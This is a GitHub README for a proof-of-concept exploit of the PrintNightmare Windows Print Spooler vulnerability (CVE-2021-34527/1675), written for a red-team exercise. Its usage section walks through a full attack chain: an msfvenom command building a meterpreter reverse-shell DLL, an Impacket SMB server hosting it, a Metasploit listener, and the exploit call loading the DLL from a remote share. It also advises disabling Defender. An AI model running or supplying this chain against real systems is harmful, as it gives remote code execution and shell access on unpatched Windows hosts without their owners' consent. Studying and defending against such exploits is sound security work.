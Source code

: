 # CNightmare - CVE-2021-34527 POC

### Description

As the title suggests, this is a POC which exploits the infamous PrintNightmare vulnerability in Microsoft Windows Print Spooler service. At present, I have implemented the ability to run this on a remote host so technically it only exploits CVE-2021-1675. 

This is by no means the best POC and it was completed as part of [eversinc33](https://github.com/eversinc33) Red Team Advent of Code. 

### Compile

Easiest way would probably just be to open it up in Visual Studio and compile it that way. Alternatively, you could use GCC.

### Usage

First Create a malicious DLL file with msfvenom:
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your-IP> LPORT=4444 -f dll -o shell.dll
```

Then move it to `/tmp/Data/`, then use **Impacket** to serve a SMB server:
```bash
sudo /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /tmp/Data/
```

Open metasploit and start a listener:
```bash
msfconsole
use exploit/mutli/handler
set lhost <your-IP>
set payload windows/x64/meterpreter/reverse_tcp
run
```

From there, you can now transfer the exploit to your target system and run it like so:
```powershell
.\CNightmare-CVE-2021-34527-POC.exe \\192.168.158.138\compdata\shell.dll 'C:\\Windows\\System32\\DriverStore\\FileRepository\\ntprint.inf_amd64_83aa9aebf5dffc96\\Amd64\\UNIDRV.DLL'
```
Ensure you have the actual driver path for you system, which can be found by browsing to `C:\Windows\System32\DriverStore\FileRepository\` and go from there.

NOTE: You may have to run it a few times to get a callback. Also you will likely need to turn Defender off as it will probably detect meterpreter. Defender was a bit hit and miss in my testing.

### Testing System

I pulled an image from here [tb.rg-adguard.net.](https://tb.rg-adguard.net/dump.php?seach=windows+1809&str=25&lang=en-US)